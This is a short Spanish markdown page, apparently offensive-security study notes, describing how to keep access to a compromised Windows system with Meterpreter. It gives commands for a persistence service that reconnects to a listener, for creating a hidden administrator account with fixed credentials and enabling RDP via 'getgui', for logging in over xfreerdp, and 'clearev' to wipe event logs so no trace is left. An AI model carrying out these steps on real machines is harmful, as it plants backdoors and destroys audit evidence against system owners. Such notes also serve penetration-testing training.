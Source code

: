 <h1 align="center">PERSISTENCIA EN WINDOWS</h1>

La persistencia permite mantener el acceso a un sistema vulnerado incluso después de reinicios o cambios en las contraseñas de los usuarios. Para implementar la persistencia, necesitamos tener privilegios elevados en el sistema comprometido

## **Persistencia con el Módulo persistence_service**

Poner la Sesión de Meterpreter en Segundo Plano y buscar el Módulo de Persistencia

- `search persistence_service`

Establece la sesión y el payload correspondiente. Este módulo lo que hace es crear un servicio para la máquina víctima que continuamente solicita la conexión por el puerto asignado. Puedes verificar que la persistencia está funcionando matando todas las sesiones de Meterpreter y poniéndote a la escucha con multi/handler asignando el mismo payload y puerto que antes

- `sessions -k`
- `use multi/handler`

##

## **Persistencia vía RDP**

Si deseas establecer la persistencia a través del protocolo RDP, lo puedes hacer de un solo comando en meterpreter

`run getgui -e -u alexis -p hacker_123321`
  - **run getgui**: Verifica si el servicio RDP está habilitado. Si no lo está, lo habilita.
  - **\-e**: Ejecuta la creación del usuario alexis con la contraseña hacker_123321 y lo añade al grupo de administradores.

Ahora, puedes usar la herramienta xfreerdp para conectarte al nuevo usuario creado a través de una interfaz grafica:

- `xfreerdp /v:&lt;ip&gt; /u:alexis /p:hacker_123321`

##

## **Borrar el Visor de Eventos para No Dejar Rastro**

Para eliminar las huellas de las actividades realizadas, puedes borrar los eventos del visor de eventos utilizando el siguiente comando en Meterpreter:

- `clearev`
